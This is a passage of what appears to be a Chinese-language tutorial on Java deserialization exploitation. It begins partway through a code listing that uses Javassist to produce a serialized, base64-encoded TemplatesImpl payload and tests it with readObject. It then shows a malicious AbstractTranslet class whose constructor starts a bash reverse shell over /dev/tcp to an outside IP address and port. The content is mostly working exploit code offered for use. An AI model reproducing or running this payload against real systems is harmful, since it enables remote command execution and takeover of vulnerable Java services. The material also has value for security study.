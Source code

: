 ```java
        String base64Str = new String(Base64.getEncoder().encode(baos.toByteArray()));
        System.out.println(base64Str);
        System.out.println("base64 end");

        tryDecode(base64Str);
    }

    private static void tryDecode(String base64Str) {
        byte[] res = Base64.getDecoder().decode(base64Str.getBytes());
        InputStream in = new ByteArrayInputStream(res);
        try {
            ObjectInputStream ois = new ObjectInputStream(in);
            ois.readObject();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(HelloTemplatesImpl.class.getName());
        printPayload(clazz.toBytecode());
    }
}
```
如上所示我们就可以注入任意想要执行的代码(`HelloTemplatesImpl`)了。

譬如我们可以在它的构造函数里放入想要执行的恶意代码(反向shell):
```java
import java.io.IOException;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
public class HelloTemplatesImpl extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
            throws TransletException {
    }

    public HelloTemplatesImpl() {
        super();
        System.out.println("Hello TemplatesImpl");
        Runtime r = Runtime.getRuntime();
        Process p;
        try {
            p = r.exec(new String[] {"/bin/bash", "-c",
                    "exec 5<>/dev/tcp/172.29.53.149/5279;cat <&5 | while read line; do $line 2>&5 >&5; done"});
            p.waitFor();
        } catch (IOException | InterruptedException e) {
            e.printStackTrace();
        }
        System.out.println("End TemplatesImpl");

    }
}
```
